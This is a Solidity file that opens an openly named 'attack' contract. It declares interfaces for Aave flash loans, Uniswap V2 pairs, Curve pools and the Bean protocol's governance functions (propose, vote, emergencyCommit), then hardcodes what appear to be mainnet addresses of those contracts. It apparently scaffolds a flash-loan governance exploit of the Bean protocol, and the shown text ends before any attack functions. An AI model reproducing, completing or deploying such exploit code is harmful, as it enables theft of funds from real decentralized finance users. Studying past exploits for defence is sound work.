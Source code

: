 ```solidity
pragma solidity ^ 0.8.0;
import "hardhat/console.sol";
interface IERC20{
    function totalSupply() external view returns (uint256);
    function balanceOf(address account) external view returns (uint256);
    function transfer(address recipient, uint256 amount) external ;
    function allowance(address owner, address spender) external view returns (uint256);
    function approve(address spender, uint256 amount) external;// returns (bool);
    function transferFrom(address sender, address recipient, uint256 amount) external returns (bool);
    function decimals() external view returns(uint);
}

interface IAAVEPool{
    function flashLoan(address,address[] calldata ,uint256[] calldata ,uint256[] calldata ,address onBehalfOf,bytes calldata ,uint16 referralCode) external;
}
interface IUniswapV2Pair{ //for uniswap flashloan
    function swap(uint , uint , address , bytes calldata ) external;
    function getReserves() external view returns (uint112 reserve0, uint112 reserve1, uint32 blockTimestampLast);
    function skim(address to) external;
    function burn(address) external;
}
interface ICRV{
    function add_liquidity( uint256[3] calldata, uint256) external;
    function add_liquidity( uint256[2] calldata, uint256) external;
    function exchange(int128, int128, uint256, uint256) external returns(uint);
    function remove_liquidity_one_coin(uint256, int128, uint256) external;
}
interface IBeanProtocol{
    enum FacetCutAction {Add, Replace, Remove}
    struct FacetCut {
        address facetAddress;
        FacetCutAction action;
        bytes4[] functionSelectors;
    }
    function propose(
        FacetCut[] calldata _diamondCut,
        address _init,
        bytes calldata _calldata,
        uint8 _pauseOrUnpause
    )
        external;
    function depositBeans(uint256) external;
    function vote(uint32) external;
    function emergencyCommit(uint32) external;
    function deposit(address, uint) external;
}
contract attack{
    address public beanTokenAddress         = 0xDC59ac4FeFa32293A95889Dc396682858d52e5Db;
    address public usdcAddress              = 0xA0b86991c6218b36c1d19D4a2e9Eb0cE3606eB48;
    address public daiAddress               = 0x6B175474E89094C44Da98b954EedeAC495271d0F;
    address public usdtAddress              = 0xdAC17F958D2ee523a2206206994597C13D831ec7;
    address public crvDepositor             = 0xA79828DF1850E8a3A3064576f380D90aECDD3359;
    address public crvDTCPool               = 0xbEbc44782C7dB0a1A60Cb6fe97d0b483032FF1C7;
    address public crvDTC                   = 0x6c3F90f043a72FA612cbac8115EE7e52BDe6E490;
    address public lusdCrvAddress           = 0xEd279fDD11cA84bEef15AF5D39BB4d4bEE23F0cA;
    address public lusdAddress              = 0x5f98805A4E8be255a32880FDeC7F6728C6568bA0;
    address public beanCrvAddress           = 0x3a70DfA7d2262988064A2D051dd47521E43c9BdD;
    address public beanLusdAddress          = 0xD652c40fBb3f06d6B58Cb9aa9CFF063eE63d465D;
    address public aavePoolAddress          = 0x7d2768dE32b0b80b7a3454c06BdAc94A69DDc7A9;
    address public beanProtocolAddress      = 0xC1E088fC1323b20BCBee9bd1B9fC9546db5624C5;
```